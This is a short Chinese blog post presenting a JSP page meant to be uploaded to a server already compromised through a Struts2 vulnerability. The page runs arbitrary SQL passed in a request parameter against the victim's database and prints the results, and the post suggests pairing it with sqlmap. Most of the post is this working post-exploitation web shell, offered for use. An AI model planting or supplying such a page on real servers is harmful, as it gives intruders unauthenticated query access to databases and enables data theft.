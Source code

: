 ```yaml
---
layout: post
title: Jsp 数据库连接工具
---
```


再玩struts2漏洞的时候,传shell,找数据库配置文件，当没开外网的时候，可以直接用一下脚本。

###
    <%@ page import="java.sql.*" %>
    <%@ page import="java.util.*" %>
    <%@ page import="java.io.*" %>
    <%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
    <form>
      <textarea rows="4" cols="60" name="query"></textarea></br>
      <button type="submit">executeQuery</button>
    </form>
    <%

    try {

    String sql = request.getParameter("query");
    out.println(sql+"</br>");
    String driver = ""; 
    String url = "";
    String username = "";
    String password = "";
    Class.forName(driver).newInstance();
    Connection conn = DriverManager.getConnection(url,username,password);
    
    Statement stmt = conn.createStatement();
    ResultSet rs = stmt.executeQuery(sql);
    ResultSetMetaData rsmd = rs.getMetaData();
    int num = rsmd.getColumnCount();
    
    while(rs.next()) {
        for (int i=1; i<=num; i++){
                     
                    out.println(rs.getString(i)+"&nbsp");
           }
           out.println("</br>");
     }
   
    rs.close();
    stmt.close();
    conn.close();

    } catch (Exception e) {
      response.setStatus(200);
      e.printStackTrace();
    }


    %>
    
自己配置好了之后可以用来直接执行数据库操作，或者外连sqlmap.

